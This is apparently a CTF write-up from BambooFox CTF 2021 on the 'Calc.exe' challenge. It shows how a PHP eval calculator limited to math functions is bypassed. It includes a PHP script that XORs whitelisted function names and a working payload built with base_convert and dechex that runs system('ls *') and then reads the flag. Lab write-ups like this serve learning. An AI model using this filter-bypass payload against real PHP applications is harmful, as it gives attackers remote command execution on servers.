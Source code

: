 ```yaml
---
title: "CTF Web Collection"
categories:
  - CTF
tags:
  - ctf
---
```


## PHP Eval with math function only (Calc.exe - BambooFox CTF 2021)
We got a simple calculator app based on PHP and it will catch the `_GET['expression']` parameter as our input.

<a href="/assets/images/ctf/bamboo/1.png"><img src="/assets/images/ctf/bamboo/1.png"></a>

Let's see the source code, maybe we found something useful. 

<a href="/assets/images/ctf/bamboo/2.png"><img src="/assets/images/ctf/bamboo/2.png"></a>

There is a `/source` there, let's check it out.

<a href="/assets/images/ctf/bamboo/3.png"><img src="/assets/images/ctf/bamboo/3.png"></a>

So, we got the source code. It's simply filtering almost all but we can use the math functions that leads to code execution.

So i use this payload from [here](https://www.anquanke.com/post/id/220813#h3-2) to find the right math function to produce strings / codes that we want.

```php
<!DOCTYPE html>
<html>
<body>

<?php
$whitelist = [ 'abs' , 'acos' , 'acosh' , 'asin' , 'asinh' , 'atan2' , 'atan' , 'atanh' , 'base_convert' , 'bindec' , 'ceil' , 'cos ' , 'cosh' , 'decbin' , 'dechex' , 'decoct' , 'deg2rad' , 'exp' , 'expm1' , 'floor' , 'fmod', 'getrandmax' , 'hexdec' , 'hypot', 'is_finite' , 'is_infinite' , 'is_nan' , 'lcg_value' , 'log10' , 'log1p' , 'log' , 'max' , 'min' , 'mt_getrandmax' , 'mt_rand' , 'mt_srand' , ' octdec' , 'pi' , 'pow' , 'rad2deg' , 'rand' , 'round' , 'sin' , 'sinh' , 'sqrt' , 'srand' , 'tan' , 'tanh']; 
$whitelist2 = [ 'acos' , 'acosh' , 'asin' , 'asinh' , 'atan2' , 'atan' , 'atanh' , 'base_convert' , 'bindec' , 'ceil' , 'cos' , 'cosh' , 'decbin' , 'dechex' , 'decoct' , 'deg2rad' , 'exp' , 'expm1' , 'floor' , 'fmod' ,'getrandmax' , 'hexdec' , 'hypot' ,'is_finite' , 'is_infinite' , 'is_nan' , 'lcg_value' , 'log10' , 'log1p' , 'log' , 'max' , 'min' , 'mt_getrandmax' , 'mt_rand' , 'mt_srand' , 'octdec ' , 'pi' , 'pow' , 'rad2deg' , 'rand' , 'round' , 'sin' , 'sinh' , 'sqrt', 'srand' , 'tan' , 'tanh' ,'abs' ];

foreach ($whitelist as $i): foreach ($whitelist2 as $k): echo $k^$i^ "*" ; echo " " . $i. " " . $k; echo "<br/>" ; endforeach ; endforeach ;




?>
```

The result for producing the " *" (including the space). I need it because i want to run `system(ls *)`.

<a href="/assets/images/ctf/bamboo/4.png"><img src="/assets/images/ctf/bamboo/4.png"></a>

So we got `10 sin pi` (for example). The `10` is on hexadecimal. 

<a href="/assets/images/ctf/bamboo/5.png"><img src="/assets/images/ctf/bamboo/5.png"></a>

We can use `dechex` function to produce the `10`. Let's try running it on the real website.

<a href="/assets/images/ctf/bamboo/6.png"><img src="/assets/images/ctf/bamboo/6.png"></a>

So we just need to produce `system` and `ls` with math function. Here i use `base_convert` to produce the strings. 

<a href="/assets/images/ctf/bamboo/7.png"><img src="/assets/images/ctf/bamboo/7.png"></a>
<a href="/assets/images/ctf/bamboo/8.png"><img src="/assets/images/ctf/bamboo/8.png"></a>

So, let's use all the payload we generate before. It's looks something like this `base_convert(1751504350,10,36)(base_convert(784,10,36).(dechex(16)^asinh^pi)`.

<a href="/assets/images/ctf/bamboo/9.png"><img src="/assets/images/ctf/bamboo/9.png"></a>

So we got no flag. I found the flag is on the `/` directory.

<a href="/assets/images/ctf/bamboo/10.png"><img src="/assets/images/ctf/bamboo/10.png"></a>

Let's cat the flag!

<a href="/assets/images/ctf/bamboo/11.png"><img src="/assets/images/ctf/bamboo/11.png"></a>

